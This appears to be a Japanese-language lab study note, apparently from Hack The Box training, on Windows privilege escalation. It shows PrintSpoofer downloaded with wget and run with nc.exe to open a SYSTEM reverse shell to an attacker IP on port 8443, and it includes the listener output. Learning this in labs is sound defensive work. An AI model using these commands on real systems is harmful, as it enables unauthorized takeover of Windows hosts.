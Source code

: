 **SYSTEMシェルのキャッチ**
```shell-session
snowyowl644@htb[/htb]$ sudo nc -lnvp 8443

listening on [any] 8443 ...
connect to [10.10.14.3] from (UNKNOWN) [10.129.43.30] 50332
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system
```

### PrintSpoofer と RoguePotato
- JuicyPotato は、Windows Server 2019 および Windows 10 build 1809 以降では機能しない
- PrintSpoofer と RoguePotato を使用すると、同じ特権を活用して、NT AUTHORITY\SYSTEM レベルのアクセス権を取得できる

**PrintSpoofer を使用した特権の昇格**
```sh
wget https://github.com/dievus/printspoofer/raw/refs/heads/master/PrintSpoofer.exe
```

```shell-session
c:\tools\PrintSpoofer.exe -c "c:\tools\nc.exe 10.10.14.3 8443 -e cmd"

output                                                                             

--------------------------------------------------------------------------------   

[+] Found privilege: SeImpersonatePrivilege                                        

[+] Named pipe listening...                                                        

[+] CreateProcessAsUser() OK           
```

**SYSTEM としてのリバースシェルのキャッチ**
```shell-session
snowyowl644@htb[/htb]$ nc -lnvp 8443

listening on [any] 8443 ...
connect to [10.10.14.3] from (UNKNOWN) [10.129.43.30] 49847
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.


C:\Windows\system32>whoami

whoami
nt authority\system
```

## SeDebugPrivilege
- SeTakeOwnershipPrivilege : 所有権の取得特権
- この特権は、[コンピューター設定] > [Windows 設定] > [セキュリティ設定] のローカルまたはドメイングループポリシーを介して割り当てることができる
	- デフォルトでは、管理者のみがこの特権を許可される
- システムメモリから機密情報をキャプチャしたり、カーネルおよびアプリケーション構造にアクセス/変更したりするために使用できる
- ユーザー権利は、割り当てられたすべてのアカウントが重要なオペレーティングシステムのコンポーネントにアクセスできるようになるため、控えめに与える必要がある
